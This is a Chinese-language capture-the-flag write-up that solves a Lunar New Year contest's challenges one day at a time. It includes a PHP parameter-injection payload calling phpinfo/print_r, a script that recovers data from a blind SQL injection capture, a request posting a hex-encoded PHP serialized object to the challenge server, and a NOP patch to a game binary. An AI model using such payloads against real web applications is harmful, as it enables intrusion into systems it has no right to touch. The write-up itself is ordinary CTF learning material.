





# _年CTF WriteUp By Frankss
娱乐题目，手速大赛


## 除夕（一血）
耗时9s，一血红包丑了60r，快落~  
传入浮点`year=2022.0`可以使弱比较成立同时+1强不等

## 初一（一血）
rabbit解密，密码2023

## 初二（一血）
伟大的VScode可以显示空格和TAB，全选一下就可以发现源码里的问题  
写个脚本把源码里带`#`的行都提取出来可以看见flag   
其实直接运行传入自身也可以     

## 初三
稍微传递一下数据的无参数，但又不太一样  
`?___=a&____=0&_____=0&a[][]=phpinfo&__=X&X=print_r`

## 初四
二分注入只需要覆盖状态就行了，不用模拟二分  
```python
import json

f = json.load(open("E:\\desk\\1.json", "r", encoding="utf-8"))
res = [0 for _ in range(1700)]

for i in f:
    r = i['_source']['layers']['http']
    try:
        dat = r['http.response_for.uri'].split(',%201))%3C')[-1].split(';')[0]
        idx = r['http.response_for.uri'].split(',%20')[-2]
        if r['http.content_length_header'] == '315':
            res[int(idx)] = int(dat)
        else:
            res[int(idx)] = int(dat) - 1
    except:
        pass

print(''.join([chr(i) for i in res]))
```
东西很长，看起来是自然语言文本，根据HTTP的明文去爆维吉尼亚  
https://www.guballa.de/vigenere-solver  
就有flag了

## 初五（一血）
解码见 https://zh.wiktionary.org/wiki/Appendix:%E5%80%89%E9%A0%A1%E7%B4%A2%E5%BC%95/Q 把链接的最后一个字母改成开头字母就能找到  

## 初六
传入自身的引用，剩下的题目都写好了  
```python
import requests

r = requests.post("http://nian.ctfer.com/challenge/chuliu/", data={
    "key": "1",
    "data": bytes.fromhex(
        "4f3a31303a2268617070793279656172223a323a7b733a31383a22006861707079327965617200736563726574223b723a313b733a31353a220068617070793279656172006b6579223b723a313b7d")
})
print(r.text)
```

## 初七
不会做，后半段不是定长，按摩尔斯爆破3/7/8进制未果，放弃。

## 初八（一血）

>目标：使用 NOP 指令 修改程序Bejeweled2.exe ，达成如视频演示效果  
>Hyper Gem 清除所有宝石  
>flag格式 ctfshow{8位地址大写:NOP的数量}。例 ctfshow{00401A2B:9}  
>尽可能使用少的 NOP 指令  

这道RW现实中没找到相关的作弊器，只能找到小学生都会的改分器，也没有相关资料，所以入手感觉需要些想法。  

### 找到宝石矩阵数据的地址
游戏还是CE顺手，选用左上角的第一个方块相对容易查找也容易引起更改，简单看一下IDA F5出来的内容每个方块都是个不小的结构体，字长选最小的字节就一定能扫出来  
  
结合不变+改变的二分几次后可以把范围缩小到几千，这时候只要触发一次下落消除就可以找到唯一地址  
  
在这次游戏中我找到的地址如上，然后断点看什么修改了这个地址，进IDA看反汇编发现是int型的二级指针，（这个已经是第一级的了），于是把类型改成4字节就可以看到宝石数据了：
  
也可以知道数字对应的类型：  
```
爆炸   9

绿宝石 6
橙宝石 5
紫三角 4
红方块 3
蓝钻石 2
白宝石 1
黄方块 0
```

### 找到爆炸扫描的指令
patch的话应该要找到比较同色块的代码，把同色限制去掉  
我上边选择了前5个块，把第二个改成9（爆炸块），第五个改成第一个同色的  
对第五个下断点之后，先随便移动一下第五个块，之后引爆第一个方块，发现判定完成后访问指令只多了4条，也就是下面包括选中的之后四条  
  

前两个其实比较的都是定值，那patch的只有后两个之一了，但是IDA进去发现最后一个只是访问甚至没有比较，那比较同色块的逻辑应该就是第三个5B355E的了  

  
逻辑是这样的，最小patch的话只需要把jnz的2byte给nop掉就能稳定跳过比较了  


